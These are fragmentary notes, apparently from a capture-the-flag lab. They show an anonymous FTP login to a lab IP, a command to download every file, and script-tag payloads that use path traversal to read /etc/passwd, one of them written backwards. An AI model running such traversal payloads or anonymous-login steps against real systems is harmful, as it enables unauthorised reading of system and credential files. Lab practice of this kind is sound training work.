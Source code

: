 ```
ftp IP PORT

```

Name (10.10.178.9:avataris12): `anonymous`
Password: **enter**

Download all directory
```
get -


```


</p><script>dwssap/cte/../../..</script>

</p><script>cat ../../../etc/passwd</script>

ftp 10.10.113.49 21